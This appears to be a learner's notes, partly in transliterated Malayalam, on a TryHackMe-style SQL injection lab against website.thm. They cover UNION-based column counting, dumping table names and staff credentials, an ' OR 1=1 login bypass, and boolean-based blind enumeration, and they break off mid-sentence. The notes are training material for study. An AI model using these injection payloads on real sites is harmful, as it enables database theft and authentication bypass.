 Firstly we'll try the UNION operator so we can receive an extra result of our choosing. Try setting the mock browsers id parameter to:
     ->1 UNION SELECT 1              (ie https://website.thm/article?id=1 UNION SELECT 1)
This statement should produce an error message informing you that the UNION SELECT statement has a different number of columns than the original SELECT query. So let's try again but add another column:
       ->1 UNION SELECT 1,2             (this show error)
	   ->1 UNION SELECT 1,2,3          (success)(ie https://.....?id=1 UNION SELECT 1,2,3)
	   the error message has gone, and the article is being displayed, but now we want to display our data instead of the article. The article is being displayed because it takes the first returned result somewhere in the web site's code and shows that. To get around that, we need the first query to produce no results. This can simply be done by changing the article id from 1 to 0.
                 ->0 UNION SELECT 1,2,3            (ie https://.....?id=0 UNION SELECT 1,2,3 )
 First, we'll get the database name that we have access to:
                 ->0 UNION SELECT 1,2,database()
Our next query will gather a list of tables that are in this database:
                  ->0 UNION SELECT 1,2,group_concat(table_name) FROM information_schema.tables WHERE table_schema = 'sqli_one'
                  ->0 UNION SELECT 1,2,group_concat(column_name) FROM information_schema.columns WHERE table_name = 'staff_users'
				  ->0 UNION SELECT 1,2,group_concat(username,':',password SEPARATOR '<br>') FROM staff_users                 (now we will get usename,passwords)
				  
				  results = admin:p4ssword
				                     martin:pa$$word
									 jim:work123
									
----------------------------------------------------------------------------------------------------------------------------------------

                                                       Blind SQLi
													   
	Blind SQLi is when we get little to no feedback to confirm whether our injected queries were, in fact, successful or not, this is because the error messages have been disabled, but the injection still works regardless.
	
Authentication Bypass-
One of the most straightforward Blind SQL Injection techniques is when bypassing authentication methods such as login forms. In this instance, we aren't that interested in retrieving data from the database; We just want to get past the login. 
    web app in username,password ile contents il thalparyam illa.web appin angane oru sambavam database il undo enn mathrame ariyandu.so database yes/no reply tharum
we can use ->' OR 1=1;--    to make query that always returns as true
     Which turns the SQL query into the following:
	        ->select * from users where username='' and password='' OR 1=1;
		
----------------------------------------------------------------------------------------------------------------------------------------

                                             Blind SQLi - Boolean Based 
											 
Boolean based SQL Injection refers to the response we receive back from our injection attempts which could be a true/false, yes/no, on/off, 1/0 or any response which can only ever have two outcomes.
->https://website.thm/checkuser?username=admin ithan site.ivide =shesham oron itt nammal sqli chyanam
->admin123' UNION SELECT 1;--   (ie ....ser?username=admin123' UNION SELECT 1;--)
As the web application has responded with the value taken as false, we can confirm this is the incorrect value of columns. Keep on adding more columns until we have a taken value of true. You can confirm that the answer is three columns by setting the username to the below value:
->admin123' UNION SELECT 1,2,3;--   (athayath true kanunathvere chyanam)
Our next task is discovering the database name. We can do this by using the built-in database() method and then using the like operator to try and find results that will return a true status:
->admin123' UNION SELECT 1,2,3 where database() like '%';--
We get a true response because, in the like operator, we just have the value of %, which will match anything as it's the wildcard value. If we change the wildcard operator to a%, you'll see the response goes back to false, which confirms that the database name does not begin with the letter a. We can cycle through all the letters, numbers and characters such as - and _ until we discover a match. If you send the below as the username value, you'll receive a true response that confirms the database name begins with the letter s: